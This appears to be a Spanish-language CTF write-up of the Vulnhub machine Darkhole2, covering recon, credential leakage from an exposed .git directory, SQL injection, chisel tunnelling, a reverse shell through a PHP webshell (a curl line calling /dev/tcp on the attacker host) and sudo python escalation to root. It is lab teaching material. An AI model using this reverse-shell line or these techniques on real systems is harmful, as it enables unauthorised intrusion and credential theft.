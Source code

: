 ```yaml
---
title: Darkhole2 | CTF Writeup - Vulnhub
date: 2024-03-11 13:39:00 +/-TTTT
categories: [PENTESTING, CTF]
tags: [vulnhub, writeup, git, infoleakage, sqli]    
---
```


# Darkhole2

>Empezamos escaneando nuestra red local en búsqueda de la máquina Darkhole2 con `arp-scan`.

```shell
> arp-scan -I ens33 --localnet

Interface: ens33, type: EN10MB, MAC: 00:0c:29:85:8e:61, IPv4: 192.168.216.133
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.216.1	00:50:56:c0:00:08	VMware, Inc.
192.168.216.2	00:50:56:e2:11:a1	VMware, Inc.
192.168.216.143	00:0c:29:be:87:55	VMware, Inc.
192.168.216.254	00:50:56:e7:c0:0d	VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 2.011 seconds (127.30 hosts/sec). 4 responded

> export IP=192.168.216.143

```

>Aplicamos reconocimiento a la máquina víctima mediante la herramienta `nmap`, enumerando puertos y servicios.

```shell
# Nmap 7.93 scan initiated Sat Jan  6 00:10:57 2024 as: nmap -sS -T5 --min-rate 5000 -p- --open -oN scan.txt 192.168.216.143
Nmap scan report for 192.168.216.143
Host is up (0.000065s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:BE:87:55 (VMware)

# Nmap done at Sat Jan  6 00:10:58 2024 -- 1 IP address (1 host up) scanned in 1.12 seconds
```

>Vemos que están abiertos los puertos 80 y 22 respectivamente. Para analizar más en profundidad, empleamos scripts básicos de reconocimiento nuevamente con la herramienta `nmap`.

```shell
# Nmap 7.93 scan initiated Sat Jan  6 00:11:18 2024 as: nmap -sCV -p22,80 -oN versions.txt 192.168.216.143
Nmap scan report for 192.168.216.143
Host is up (0.00030s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 57b1f564289891516d70766ea552435d (RSA)
|   256 cc64fd7cd85e488a289891b9e41e6da8 (ECDSA)
|_  256 9e7708a4529f338d9619ba757127bd60 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: DarkHole V2
| http-git: 
|   192.168.216.143:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: i changed login.php file for more secure 
MAC Address: 00:0C:29:BE:87:55 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan  6 00:11:25 2024 -- 1 IP address (1 host up) scanned in 6.73 seconds
```

>Resulta de interés que tengamos acceso al repositorio del proyecto. Primeramente, nos traemos el repositorio a local con `wget -r http://$IP/.git/` e intentamos enumerar los logs y commits.

![1.png]({%link assets/img/darkhole2/1.png%})

>Vemos información crítica expuesta. Podemos ver qué son exactamente esos commits con `git show {{commit}}`.

![2.png]]({%link assets/img/darkhole2/2.png%})

>Intentamos iniciar sesión a la página web con los datos expuestos. Cuando iniciamos sesión, vemos el siguiente dashboard:

![3.png]({%link assets/img/darkhole2/3.png%})

>Si ponemos una comilla en el parámetro id de la URL, sucede lo siguiente:

![4.png]({%link assets/img/darkhole2/4.png%})

>Vemos que es vulnerable a una inyección SQL. Ordenamos por columnas con la query `order by 1,2,3,4,5,6-- -`, y llegamos a la conclusión de que están siendo utilizadas 6 columnas. Ahora, empleamos un ataque de tipo `UNION SELECT`.

![5.png]({%link assets/img/darkhole2/5.png%})

>¡Podemos enumerar la base de datos siendo utilizada y lo vemos reflejado en la web! Ahora, solo sigue enumerar las tablas y columnas.

![6.png]({%link assets/img/darkhole2/6.png%})

>Llama la atención la tabla de nombre `ssh`, sobretodo porque habíamos visto que estaba corriendo ssh por el puerto 22. Intentamos ver si hay información interesante:

![7.png]({%link assets/img/darkhole2/7.png%})

>Enumeramos las columnas `user` y `pass`:

![8.png]({%link assets/img/darkhole2/8.png%})

>Nos intentamos conectar por `ssh` con las credenciales obtenidas.

![9.png]({%link assets/img/darkhole2/9.png%})

>Dado que tenemos acceso a la máquina, intentamos enumerarla para escalar nuestros privilegios. Si hacemos `ls -la`, podemos ver que el archivo `.bash_history` tiene permisos de lectura con el usuario jehad. Si le aplicamos un `cat`, vemos lo siguiente:

![10.png]({%link assets/img/darkhole2/10.png%})

>Parecería ser que el puerto 9999 de la máquina está corriendo un servicio HTTP internamente. Intentamos ver que hay ahí mediante un `curl`.

![11.png]({%link assets/img/darkhole2/11.png%})

>Vemos que el usuario losy está corriendo esta PHP Webshell. Ahora bien, nos convendría a nosotros en nuestro equipo de atacante hacer un port forwarding para poder ver este puerto en nuestra máquina y así entablarnos una Reverse Shell. 
>Nos descargamos `chisel` tanto en nuestra máquina atacante como en la máquina víctima.
>Desde la máquina atacante, nos levantamos un servidor HTTP con el comando `python3 -m http.server 80` para poder obtener el binario de `chisel` desde la máquina víctima con el comando `wget http://{ipAtacante}/chisel`. 
>Luego, aplicamos los siguientes comandos:

![12.png]({%link assets/img/darkhole2/12.png%})

>De esta forma, se creará un túnel por TCP que nos conectará el puerto 9999 de la máquina víctima con nuestro puerto 9999.
>Ahora sí, desde nuestra máquina atacante empleamos netcat para ponernos en escucha por el puerto 443 con `nc -nlvp 443`. Desde otra terminal, empleamos `curl -x GET http://$IP/?cmd=bash -c 'bash -i >%26 /dev/tcp/{{ipAtacante}}/443 0>%261'` para poder entablarnos la Reverse Shell.

![13.png]({%link assets/img/darkhole2/13.png%})

>¡Listo! Ya estamos como el usuario losy. Hacemos un tratamiento de la tty:

![14.png]({%link assets/img/darkhole2/14.png%})

>Empezamos a enumerar y vemos la primera flag:

![15.png]({%link assets/img/darkhole2/15.png%})

>Nuevamente vemos el archivo `.bash_history` con permisos de lectura. Si le aplicamos un `cat` podemos apreciar lo siguiente:

![16.png]({%link assets/img/darkhole2/16.png%})

>Vemos una filtración de credenciales. En este caso, la contraseña de losy es gang. También vemos que intenta emplear sudo para ejecutar python como root. Esto significa que tiene privilegios a nivel de sudoers para ejecutar este binario. Lo confirmamos haciendo un `sudo -l`.

![17.png]({%link assets/img/darkhole2/17.png%})

>Ejecutamos python como root:

![18.png]({%link assets/img/darkhole2/18.png%})

>¡Listo! Ganamos acceso a la máquina como el usuario root y obtuvimos su flag. 
